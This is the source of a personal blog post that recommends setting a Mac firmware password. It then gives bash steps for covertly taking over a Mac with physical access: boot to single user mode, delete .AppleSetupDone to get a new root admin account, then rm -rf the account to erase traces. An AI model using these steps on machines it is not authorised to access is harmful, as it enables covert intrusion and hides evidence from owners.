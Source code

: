 ```yaml
---
layout: post
title: How to hack a Mac
---
```


<div class="message">
  tl;dr The most important thing to set on any mac.
</div>

Do you use a mac? Do you have an open firmware password set? If not, reboot your machine, and hold down command-R to enter recovery mode. From there, select Utilities from the menubar, then click Firmware Password to set a password. Make sure you remember this. If you ever forget it, you can take your machine to an apple store where they will do some funky process and call the mothership, then reset your password. There use to be an exploit where you could reboot without one of the ram sticks and it would reset the password, but that was patched a few years ago. Besides, most machines come with RAM soldered to the motherboard these days, so it is kind of a moot point. 

The open firmware password is at the hardware level, and will require the user to enter a password in order to boot any other operating system (or mode). On my mac, I have this, so if my machine were to ever be stolen, it would effectively be a brick. Since the SSD is technically removable (although non-standard) in my 15 retina MBP, a thief could theoretically remove the SSD and replace it with a blank one from other world computing, but unfortunately for them, it would be impossible to install a new OS on that drive without my firmware password, which would be very difficult to crack considering you cannot simply get a hash can run john the ripper.

Just for fun, I decided to see just how easy it would be to break into my own machine if I forgot the password. If you want to just reset the password, you can open a terminal in recovery mode, and type resetpassword to reset it. But I was more interested in how to break in without the owner knowing. If you changed the password, then it would be pretty obvious what you did. Here is what I did:

First, I rebooted into single user mode by restarting the machine and holding down command-s.

Once booted, mount the filesystem:
{% highlight bash %}
$ mount -uw /
{% endhighlight %}

Simply delete the applesetupdone file, and the next time the machine boots it will prompt you to create a new Administrator account, which convienently will have root privileges.
{% highlight bash %}
$ rm /var/db/.AppleSetupDone
{% endhighlight %}

Finally, reboot the machine.
{% highlight bash %}
$ reboot
{% endhighlight %}

At this point, you can go ahead and create a new user account which will have full root access. If you want to delete it without leaving a trace, reboot back into single user mode, then

Mount the filesystem:
{% highlight bash %}
$ mount -uw /
{% endhighlight %}

Then delete the user folder and a few other files:
{% highlight bash %}
$ rm /var/db/dslocal/nodes/Default/users/{username}.plist
$ rm -rf /Users/{username}
{% endhighlight %}

Finally, reboot the machine.
{% highlight bash %}
$ reboot
{% endhighlight %}

Please only do this on machines that you own, and make sure to set an open firmware password. Also, you could use FireVault instead of / in addition to this method, but it will not prevent you from removing the SSD and installing another os.

-----

Want to see something else added? <a href="https://github.com/dwj300/dwj300.github.io/issues/new">Open an issue.</a>
